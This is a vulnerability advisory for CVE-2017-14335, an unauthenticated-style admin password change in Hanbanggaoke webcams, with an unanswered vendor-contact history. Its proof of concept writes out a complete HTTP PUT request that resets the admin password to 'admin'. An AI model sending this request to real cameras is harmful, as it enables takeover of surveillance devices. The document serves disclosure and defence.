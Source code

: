 ## Vulnerability summary
The following advisory describes an arbitrary password change vulnerability found in Hanbanggaoke webcams.

Beijing Hanbang Technology, “one of the first enterprises entering into digital video surveillance industry, has been focusing on R&D of products and technology of digital video surveillance field. While providing product and technical support, it also provides overall solution for the industrial system; it has successfully provided system implementation and service supports for several industries.”

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

Vendor response
We tried to contact Hanbanggaoke since the 8th of August 2017, repeated attempts to establish contact went unanswered. At this time there is no solution or workaround for this vulnerability.

## Vulnerability details
User controlled input is not sufficiently sanitized, by sending a PUT request to /ISAPI/Security/users/1 HTTP/1.1 an attacker can change the admin password.

CVE: CVE-2017-14335

## Proof of Concept
In order to exploit the vulnerability, we need to use proxy tool (like Burp). We then connect to the victim’s machine and need to capture the data package.

We then edit the data of the following PUT request:


```
PUT /ISAPI/Security/users/1 HTTP/1.1
Host: x.x.x.x
Content-Length: 321
Cache-Control: max-age=0
Origin: http://x.x.x.x
X-Requested-With: XMLHttpRequest
Authorization: Basic YWRtaW46ODg4ODg4
Content-Type: application/x-www-form-urlencoded
Accept: application/xml, text/xml, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36
If-Modified-Since: 0
Referer: http://x.x.x.x/doc/page/paramconfig.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: updateTips=true; streamType=0; BufferLever=1; userInfo80=YWRtaW46ODg4ODg4; DevID=5; language=zh; curpage=paramconfig.asp%254
Connection: close

<?xml version="1.0" encoding="UTF-8"?><User><id>1</id><userName>admin</userName><password>admin</password><bondIpList><bondIp><id>1</id><ipAddress>0.0.0.0</ipAddress><ipv6Address>::</ipv6Address></bondIp></bondIpList><macAddress/><userLevel>administrator</userLevel><attribute><inherent>true</inherent></attribute></User>
```

The successful response will be:

Now, we can login with as administrator:

User: admin
Password: admin